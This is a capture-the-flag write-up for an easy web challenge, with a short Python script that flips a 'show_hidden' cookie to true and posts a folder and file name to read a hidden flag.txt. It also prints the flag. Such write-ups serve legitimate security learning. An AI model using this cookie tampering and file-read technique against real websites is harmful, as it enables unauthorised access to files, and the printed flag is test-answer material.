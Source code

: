 # attack-strategies (ez)

### Description

The StarCraft III Interplanetary Newbie Championship is almost live and I was assigned to take care of teaching everyone in the Newbie-84 planet how to play. I made a blog so each individual can choose their favorite races and strategies to learn before the tournament. I will secretly participate and to give them a change, I hid my go to strategy somewhere on the website. Wanna try finding it?

[http://vespene-gas.hackers.best:31337/](http://vespene-gas.hackers.best:31337/)

### Files

None

### Solution

Theres a cookie called `show_hidden` and its set to `false`, so i thought... just set to `true`.

![cookie.png](cookie.png)

the list of folders will have an extra option called `flag.txt`, but selecting it wont work cuz its a file, i hade to send the request manually and set the folder to `.`and file to `flag.txt`.

[solve.py](solve.py)

```python
import requests
url = 'http://vespene-gas.hackers.best:31337/'
headers = {
    'Cookie': 'show_hidden=true'
}
content = {
    'folder_select': '.',
    'file_select': 'flag.txt',
}
r = requests.post(url, data=content, headers=headers)

print(r.text) # -> shctf{get_zerg_rushed_nb}
```
